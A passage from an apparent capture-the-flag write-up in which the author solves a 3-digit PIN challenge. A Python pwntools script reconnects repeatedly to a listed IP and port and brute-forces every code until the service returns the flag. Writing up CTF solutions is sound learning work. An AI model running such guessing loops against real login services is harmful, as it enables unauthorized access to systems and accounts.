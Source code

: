 Upon connecting it promptly tells us we have 3 tries to guess a 3-digit code. Well... if you do not want to let me in if I ask nicely, I will just guess my way in >:). I use pwntools in Python to spam the address with password guesses:
```py
#!/usr/bin/env python3

# Imports
from pwn import *

# Connect parameters
host = "167.99.129.209"
port = 10002

pwd = 0
while pwd < 1000:
	# Open connection
	s = remote(host, port)
	s.recvuntil("\n")
	# Loop over given tries (re-connect afterwards)
	for j in range(3):
		# Increment trial 3-digit password and send
		pwd += 1
		s.sendline(str(pwd))
		# Get return
		rstr = s.recvuntil("\n", drop=True).decode("latin-1")
		print(rstr)
		s.recvuntil("\n")
		# Check return string
		if rstr[0] != 'S':
			print(rstr)
			pwd += 1000
		# Visual check of progress
		if pwd % 100 == 0:
			print(pwd)
	# Close connection
	s.close()
```

Although the password is randomised (as could be deduced from the provided ELF), a 3-digit password can be easily brute-forced. So to no surprise, after some guessing this script got lucky and got returned:

```
Nice! The flag is NETON{N1c3_ByP4sS_My_Fr13eND!}
```

I'm not sure whether or not this counts as a bypass... but hey, it worked. : )



## Web Category

### Welcome to FilterLand - 208
